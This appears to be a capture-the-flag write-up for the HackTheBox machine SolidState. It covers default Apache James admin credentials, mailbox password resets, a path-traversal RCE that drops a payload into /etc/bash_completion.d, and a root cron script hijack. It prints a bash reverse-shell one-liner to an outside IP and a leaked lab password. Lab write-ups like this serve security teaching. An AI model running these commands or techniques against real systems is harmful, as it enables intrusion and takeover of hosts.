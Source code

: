 ```yaml
---
layout: post
title: HackTheBox&#58; SolidState
description: Writeup for HTB box SolidState.
category: HackTheBox
---
```


### Introduction

SolidState is a Linux box, difficulty Medium on HTB.

For user part, we use weak default credential to get access to the mail system, which contains credential for a restricted shell.
For pivesc part, first we need to escape the restricted shell, then modify a script that is included in a root cron job.

### Initial Scan

![SolidState-1](/resources/SolidState-1.png)

### Initial Foothold: Apache James

We see smtp is running on port 25 and pop3 is running on port 110, which implies this is a mail server.
By telnet to the 2 ports to see the banners, we can see that the machine is running Apache James version 2.3.2.
We can find the documentation for version 2.0 [here](https://james.apache.org/server/archive/configuration_v2_0.html).

The server has a remote manager service running on port 4555.
By telnet to that port we can see that this service is exposed.
Trying default credential `root:root` (from documentation) gives us access to the panel.

![SolidState-2](/resources/SolidState-2.png)

### User: mindy's Email

Running HELP in the manager panel shows a list of commands, such as list users, add users or change password.
We see that there are 5 users in the server: `mailadmin`, `james`, `thomas`, `john`, `mindy`.

We can reset their passwords, for example `setpassword mailadmin mailadmin`.
This gives us access to each individual mailbox.
Login to `mindy` account through pop3 on port 110 and check her second mail, we see the credential of `mindy`: `mindy:P@55W0rd1!2@`

Login with this credential, we get a restricted shell and we can read user.txt.
![SolidState-3](/resources/SolidState-3.png)

### Privesc: Escape Restricted Shell

As mention above (and by reading all emails) we notice that `mindy` can only execute certains commands.
Searching Apache James version 2.3.2 on ExploitDB we can see that there is 1 RCE vulnerability with it.

The PoC along with a paper about it can be found [here](https://www.exploit-db.com/exploits/35513) and [here](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf).
Basically by creating an user named `../../../../../../../../etc/bash_completion.d` (LFI-ish), we can add malicious payload into `/etc/bash_completion.d` folder.
This means everytime an user logs into the system the payload would be executed as that user.

By modifying the payload in the script number 35531 to be the reverse shell and logging in as `mindy`, we get a non-restricted reverse shell back.
```bash
bash -c bash -i >& /dev/tcp/10.10.14.25/1337 0>&1
```
![SolidState-4](/resources/SolidState-4.png)

### Privesc: Root Cronjob

By using [pspy](https://github.com/DominicBreuker/pspy) to monitor, we discover that there is a root cronjob running every 3 minutes.
![SolidState-5](/resources/SolidState-5.png)

The cron executes `/opt/tmp.py`, which we have full read/write permission.
By changing the file to a Python reverse shell (and some waiting), we get a root shell and we can read root.txt.
![SolidState-6](/resources/SolidState-6.png)
